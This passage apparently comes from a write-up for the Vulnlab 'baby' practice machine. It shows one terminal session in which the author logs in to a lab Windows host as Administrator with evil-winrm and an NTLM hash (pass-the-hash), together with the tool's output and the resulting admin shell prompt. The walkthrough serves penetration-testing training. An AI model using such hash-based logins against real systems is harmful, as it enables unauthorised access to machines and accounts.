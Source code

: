 With the hash, we can connect:

```bash
┌──(root㉿kali)-[~/Vulnlab/machines/baby]
└─# evil-winrm -i 10.10.82.35 -u Administrator  -H ee4457ae59f1e3fbd764e33d9cef123d
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```